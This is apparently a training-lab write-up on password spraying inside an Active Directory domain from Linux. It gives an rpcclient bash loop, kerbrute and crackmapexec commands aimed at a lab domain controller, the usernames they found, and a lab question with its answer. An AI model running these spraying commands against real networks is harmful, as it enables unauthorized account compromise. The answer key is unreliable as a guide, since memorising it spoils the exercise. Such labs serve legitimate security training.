




<div align='center'>

# **Lab 8: Internal Password Spraying - from Linux** 

</div>

## **Internal Password Spraying from a Linux Host**

### **Using a Bash one-liner for the Attack**

```zsh
for u in $(cat users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

This command will try to authenticate to the domain controller with each username in the users.txt file and the password `Welcome1`. If the authentication is successful (which is indicated by the keyword `Authority` in the respond), the user's username will be returned.

Here is the result:



We get 3 users: `sgage`, `mholliday`, and `tjohnson`

### **Using Kerbrute for the Attack**

```zsh
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 users.txt  Welcome1
```

Here is the result:



We get a user: `sgage`

### **Using CrackMapExec & Filtering Logon Failures**

```zsh
crackmapexec smb 172.16.5.5 -u users.txt -p Password123 | grep +
```

Here is the result:



We get a user: `avazquez`

Validate the user:



**Question:** Find the user account starting with the letter "s" that has the password Welcome1. Submit the username as your answer.

- **Answer:** sgage

